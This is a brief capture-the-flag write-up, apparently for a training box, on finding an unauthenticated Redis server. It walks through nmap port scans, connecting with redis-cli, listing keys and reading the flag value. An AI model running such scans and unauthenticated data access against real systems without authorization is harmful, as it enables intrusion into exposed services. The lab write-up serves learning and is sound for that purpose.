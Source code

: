 # Redeemer
### Summary
Server running Redis, (mis)configured to allow access from anyone without authentication.

From redis.io:
> Redis is designed to be accessed by trusted clients inside trusted environments. This means that usually it is not a good idea to expose the Redis instance directly to the internet [...]

---

IP: 10.129.111.152

### Scanning
`nmap 10.129.111.152` (most common 1000 ports)
> All 1000 scanned ports on 10.129.242.171 are in ignored states. \
Not shown: 1000 closed tcp ports (conn-refused)

`nmap -p- -sV 10.129.111.152` (all ports)
> PORT     STATE SERVICE VERSION \
6379/tcp open  redis   Redis key-value store 5.0.7

redis in-memory key-value database


### Redis
`redis-cli -h 10.129.208.50 -p 6379` connects without authentication.

Only one database found with `redis> INFO`.

Find all keys \
`redis> KEYS *`
>1\) "stor" \
2\) "numb" \
3\) "flag" <<\
4\) "temp"


### Flag
`redis> GET flag`
